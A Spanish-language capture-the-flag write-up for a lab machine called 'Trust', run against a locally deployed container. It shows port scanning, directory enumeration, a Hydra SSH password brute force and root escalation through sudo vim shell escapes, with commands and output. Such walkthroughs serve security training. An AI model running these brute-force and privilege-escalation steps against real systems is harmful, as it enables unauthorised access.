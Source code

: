 
# 1. Máquina: Trust  

*Write Up*

<a href="https://github.com/GutsNet"><img title="Author" src="https://img.shields.io/badge/Author-GutsNet-red.svg?style=for-the-badge&logo=github"></a>

**Dificultad:** Muy Fácil

**Proceso:**
- [1. Despliegue](#desplegando-la-máquina-vulnerable)
- [2. Escaneo de puertos](#escaneo-de-puertos-con-nmap)
- [3. Enumeración de Directorios](#enumeración-de-directorios-con-gobuster)
- [4. Visualización de Contenido](#visualización-de-contenido-con-curl)
- [5. Ataque de fuerza bruta](#fuerza-bruta-ssh-con-hydra)
- [6. Acceso con SSH](#acceso-al-servidor-ssh)
- [7. Busqueda de privilegios](#enumeración-de-privilegios-sudo)
- [8. Escalada de privilegios](#escalada-de-privilegios-con-vim)

---

## Desplegando la Máquina Vulnerable

```bash
~/Trust ᐅ sudo bash auto_deploy.sh trust.tar
```
Este comando ejecuta un script de bash (`auto_deploy.sh`) que despliega la máquina vulnerable a partir del archivo `trust.tar`.

**Salida:**

```
Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2
Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

#### Verificación de Conectividad

```bash
~/Trust ᐅ ping -c 2 172.18.0.2
```
El comando `ping -c 2` envía 2 paquetes ICMP a la dirección IP `172.18.0.2` para verificar la conectividad y la respuesta del host.

**Salida:**

```
PING 172.18.0.2 (172.18.0.2) 56(84) bytes of data.
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.441 ms
64 bytes from 172.18.0.2: icmp_seq=2 ttl=64 time=0.076 ms

--- 172.18.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1022ms
rtt min/avg/max/mdev = 0.076/0.258/0.441/0.182 ms
```

---

## Escaneo de Puertos con Nmap

```bash
~/Trust ᐅ nmap -p- -sCV 172.18.0.2
```
Este comando revela que los puertos `22` (SSH) y `80` (HTTP) están abiertos, con `OpenSSH` y `Apache` ejecutándose en ellos respectivamente.

**Salida:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
```

**Explicación de parámetros:**

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `-sCV`: Realiza un escaneo con detección de versión (`-sV`) y utiliza scripts básicos (`-sC`) para obtener más información del servicio.

---

## Enumeración de Directorios con Gobuster

```bash
~/Trust ᐅ gobuster dir -w $seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.18.0.2:80/ -t 200 -x php,html
```
Este comando encuentra dos archivos en el servidor web: `index.html` y `secret.php`.

**Salida:**

```
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
```

**Explicación de parámetros:**

- `dir`: Modo de enumeración de directorios.
- `-w`: Especifica la wordlist a utilizar.
- `-u`: URL objetivo a escanear.
- `-t 200`: Define el número de hilos a usar (200 en este caso).
- `-x php,html`: Busca archivos con extensiones `.php` y `.html`.

---

## Visualización de Contenido con cURL

```bash
~/Trust ᐅ curl http://172.18.0.2/secret.php
```

**Salida:**

```html
<!DOCTYPE html>
```         	                                                                                                                	              

El comando `curl` se utiliza para ver el contenido del archivo `secret.php`, el cual es HTML, o bien, la otra y la mejor opción, es abrir el archivo desde el navegador (http://172.18.0.2/secret.php). En este caso, lo hice a través de comandos por comodidad y para dar un vistazo.

---

## Fuerza Bruta SSH con Hydra

```bash
~/Trust ᐅ hydra -l mario -P $seclists/Passwords/probable-v2-top12000.txt ssh://172.18.0.2 -I -t 32
```

**Salida:**

```
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```

Hydra encuentra la contraseña `chocolate` para el usuario `mario`. Dicho usuario se encontro en la ruta http://172.18.0.2/secret.php.

**Explicación de parámetros:**
- `-l mario`: Define el usuario como `mario`.
 - `-P`: Especifica la wordlist de contraseñas.
 - `ssh://172.18.0.2`: Define el protocolo y la IP del objetivo.
- `-I`: Ejecuta el ataque inmediatamente sin demora.
- `-t 32`: Utiliza 32 tareas en paralelo.

---

## Acceso al Servidor SSH

```bash
~/Trust ᐅ  mario@172.18.0.2
```

Este comando inicia una sesión SSH en la máquina como el usuario `mario`.

**Salida:**
 ```
mario@172.18.0.2's password:
Linux 73cbcae3fd14 5.15.153.1-microsoft-standard-WSL2 #1 SMP Fri Mar 29 23:14:13 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@73cbcae3fd14:~$ 
```

**Comprobación:**
```
mario@73cbcae3fd14:~$ whoami
mario
```

---

## Enumeración de Privilegios Sudo

```bash
mario@73cbcae3fd14:~$ sudo -l
 ```

Este comando muestra que el usuario `mario` tiene permisos para ejecutar `vim` con privilegios de superusuario.

**Salida:**

```
Matching Defaults entries for mario on 73cbcae3fd14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 73cbcae3fd14:
    (ALL) /usr/bin/vim
```

---

## Escalada de Privilegios con Vim

#### Búsqueda de técnicas de escalada de privilegios con <a href="https://github.com/r1vs3c/searchbins">Searchbins</a>

```bash
~/Trust ᐅ searchbins -b vim -f sudo
```

Searchbins sugiere varias técnicas para escalar privilegios utilizando `vim`.

**Salida:**
```
[+] Binary: vim

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/vim/#sudo]

        | sudo vim -c ':!/bin/sh'

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.

        | sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

This requires that `vim` is compiled with Lua support.

        | sudo vim -c ':lua os.execute("reset; exec sh")'
```

#### Ejecución de la Escalada de Privilegios

```bash
mario@73cbcae3fd14:~$ sudo vim -c ':!/bin/sh'
```

Este comando utiliza `vim` con privilegios de superusuario para ejecutar un shell con permisos de root.

**Salida:**
```

# 
```

**Comprobación:**
```

# whoami
root
```

